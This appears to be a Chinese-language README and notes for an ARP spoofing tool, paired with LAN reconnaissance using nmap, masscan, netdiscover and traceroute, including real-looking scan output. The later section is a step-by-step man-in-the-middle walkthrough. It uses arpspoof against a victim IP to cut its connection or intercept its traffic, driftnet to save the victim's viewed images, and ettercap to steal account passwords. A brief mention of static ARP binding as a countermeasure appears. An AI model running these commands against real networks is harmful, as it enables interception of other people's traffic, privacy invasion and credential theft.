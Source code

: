 #ARP欺骗代码

本项目可实现局域网的arp欺骗。
#使用方法

可以将目标主机发往网关的流量定向骗至本主机 安装 scapy 模块

    sudo apt install python-scapy
    sudo ./venv/bin/python main.py -i eth0 -t 受害人ip -m rep -s 网关ip
    sudo ./venv/bin/python main.py -i eth0 -t 受害人ip -m req -s 网关ip

开启流量转发
不开启的话，被欺骗对象无法上网

    echo 1 > /proc/sys/net/ipv4/ip_forward
---
#内网扫描
##nmap扫描

Nmap包含四项基本功能：

主机发现（Host Discovery）

端口扫描（Port Scanning）

版本侦测（Version Detection）

操作系统侦测（Operating System Detection）


kali扫描内网在线主机和网关
https://blog.csdn.net/weixin_39793813/article/details/111282240?utm_term=kali%20linux%E6%89%AB%E6%8F%8F%E5%B1%80%E5%9F%9F%E7%BD%91&utm_medium=distribute.pc_aggpage_search_result.none-task-blog-2

`ifconfig`

        docker0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500 #应用虚拟网卡
            inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
            ether 02:42:b5:ad:0d:a5  txqueuelen 0  (Ethernet)
            RX packets 0  bytes 0 (0.0 B)
            RX errors 0  dropped 0  overruns 0  frame 0
            TX packets 0  bytes 0 (0.0 B)
            TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

    eth0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500 #以太网
            ether 18:c0:4d:47:c1:5b  txqueuelen 1000  (Ethernet)
            RX packets 0  bytes 0 (0.0 B)
            RX errors 0  dropped 0  overruns 0  frame 0
            TX packets 0  bytes 0 (0.0 B)
            TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

    lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536   #回环接口
            inet 127.0.0.1  netmask 255.0.0.0
            inet6 ::1  prefixlen 128  scopeid 0x10<host>
            loop  txqueuelen 1000  (Local Loopback)
            RX packets 258  bytes 20460 (19.9 KiB)
            RX errors 0  dropped 0  overruns 0  frame 0
            TX packets 258  bytes 20460 (19.9 KiB)
            TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

    wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500  #无线网卡
            inet 192.168.124.14  netmask 255.255.255.0  broadcast 192.168.124.255 #网卡信息
            inet6 fe80::8b0e:11c1:df70:9051  prefixlen 64  scopeid 0x20<link>
            ether 60:ee:5c:6f:a1:d5  txqueuelen 1000  (Ethernet)
            RX packets 92829  bytes 91329703 (87.0 MiB)
            RX errors 0  dropped 0  overruns 0  frame 0
            TX packets 79605  bytes 11458130 (10.9 MiB)
            TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
---

arp - a  显示arp缓存表

        ? (192.168.124.17) at 54:0e:58:c8:c0:53 [ether] on wlan0
        ? (192.168.124.24) at 74:c1:4f:63:5e:24 [ether] on wlan0
        ? (192.168.124.15) at <incomplete> on wlan0
        ? (192.168.124.23) at <incomplete> on wlan0
        ? (192.168.124.3) at 94:87:e0:01:22:69 [ether] on wlan0
        ? (192.168.124.10) at 3c:95:09:4c:49:57 [ether] on wlan0
        ? (192.168.124.18) at cc:2d:83:e4:4e:c9 [ether] on wlan0
        moshujia.cn (192.168.124.1) at dc:da:80:cb:1c:1e [ether] on wlan0
        ? (192.168.124.6) at e6:c0:98:4a:57:7b [ether] on wlan0
                                                         

---
`sudo nmap -sP 192.168.124.0/24` #nmap完整扫描局域网内存活主机该扫描需要手机与网络发生数据交换，否则无法扫描到

         sudo nmap -sP 192.168.124.0/24                     
        Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-19 21:55 UTC
        Nmap scan report for moshujia.cn (192.168.124.1)
        Host is up (0.0045s latency).
        MAC Address: DC:DA:80:CB:1C:1E (New H3C Technologies)
        Nmap scan report for 192.168.124.3 (192.168.124.3)
        Host is up (1.3s latency).
        MAC Address: 94:87:E0:01:22:69 (Xiaomi Communications)
        Nmap scan report for 192.168.124.6 (192.168.124.6)
        Host is up (0.55s latency).
        MAC Address: E6:C0:98:4A:57:7B (Unknown)
        Nmap scan report for 192.168.124.15 (192.168.124.15)
        Host is up (1.2s latency).
        MAC Address: 84:6F:CE:C5:2B:07 (Guangdong Oppo Mobile Telecommunications)
        Nmap scan report for 192.168.124.17 (192.168.124.17)
        Host is up (2.0s latency).
        MAC Address: 54:0E:58:C8:C0:53 (Guangdong Oppo Mobile Telecommunications)
        Nmap scan report for 192.168.124.14 (192.168.124.14)
        Host is up.
        Nmap done: 256 IP addresses (6 hosts up) scanned in 49.74 seconds

---

主动扫描就是主动发送一个ARP请求，等待目标主机的响应

使用nmap工具实施arp主动扫描：nmap -PR 目标地址（-PR表示实施arp ping扫描）

        nmap -PR 192.168.124.10       
        Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-19 20:33 UTC
        Nmap scan report for 192.168.124.10 (192.168.124.10)
        Host is up (0.026s latency).
        Not shown: 993 filtered tcp ports (no-response)
        PORT     STATE SERVICE
        80/tcp   open  http
        135/tcp  open  msrpc
        139/tcp  open  netbios-ssn
        445/tcp  open  microsoft-ds
        2179/tcp open  vmrdp
        3306/tcp open  mysql
        5357/tcp open  wsdapi
        Nmap done: 1 IP address (1 host up) scanned in 8.35 seconds


---

nmap –T4 –A –v targethost

其中-A选项用于使用进攻性（Aggressive）方式扫描；-T4指定扫描过程使用的时序（Timing），总有6个级别（0-5），级别越高，扫描速度越快，但也容易被防火墙或IDS检测并屏蔽掉，在网络通讯状况良好的情况推荐使用T4；-v表示显示冗余（verbosity）信息，在扫描过程中显示扫描的细节，从而让用户了解当前的扫描状态。

---

被动扫描

被动扫描是通过长期监听ARP广播，来发现同一局域网中的活动主机

Netdiscover既可以主动扫描，亦可以以被动模式嗅探存活的主机

使用方法如下：netdiscover -p（-p被动模式，不发送任何数据包，仅嗅探）

---

设备mac查询

通过对目标主机实施arp扫描后，可以获取到目标主机的MAC地址，以及mac生产商，但有一些设备无法获取到其生产厂商，此时可以登录https://mac.51240.com网站进行查询

---

raceroute工具

Traceroute是用来侦测由源主机到目标主机所经过的路由请求的重要工具

Traceroute工具收到目的主机ip地址后，首先给目的主机发送一个TTL=1的udp包，而经过的第一个路由器收到这个数据包之后，自动把TTL减去1（TTL指生存时间）

使用traceroute工具实施路由跟踪的方法如下：traceroute 目的主机

---

上级网络路由跟踪

如果连接到最底层网络的话，则可以通过路由跟踪的方式扫描到上级网络的路由，根据获取的路由信息，可以猜测上级网络的范围大小

Nmap工具提供了一个--traceroute选项，可以用来实现路由跟踪

具体操作如下：nmap --traceroute www.baidu.com

----

`sudo masscan -p80,8000-8100 192.168.124.1-192.168.124.254 ` #对我们这个局域网主机端口80、8000至8100进行检测

---

sudo arpspoof -i eth0 -t 192.168.2.143 192.168.2.1#进行arp断网攻击 目标主机ip 目标主机网关
arpspoof  -i  eth0  -t  攻击主机地址 -r  ⽹关地址或者其他主机地址

---
若mac 地址静态绑定则arp攻击失效 
绑定方法 arp - s 网关ip 网关mac地址

---
driftnet  用于抓取网络流量中的图片，并将他们显示出来
[链接]:https://blog.csdn.net/light_travlling/article/details/103915829
sudo driftnet -i eth0 -a -d /home/zhouyi/桌面/picture 将网络流量中的图片保存在桌面
[链接]:https://blog.csdn.net/qq_33571718/article/details/99684525?utm_medium=distribute.pc_relevant.none-task-blog-2
ettercap -Tq -i eth0 #目标主机监听获取帐号

        开启转发
        echo 1 > /proc/sys/net/ipv4/ip_forward. 
        开启arp欺骗注意网关和目标主机的ip位置互换
        arpspoof -i eth0 -t 192.168.2.1 192.168.2.143
        将目标主机浏览的图片写到桌面
        sudo driftnet -i eth0 -a -d /home/zhouyi/桌面/picture
        对目标主机进行监听，窃取账号密码
        ettercap -Tq -i eth0

 sudo tcpdump -i wlan0 -nn 'host 192.168. 1.1

 ---------------

 ettercap -G #启动图形界面
 [链接]:https://blog.csdn.net/qq_45557476/article/details/121428542
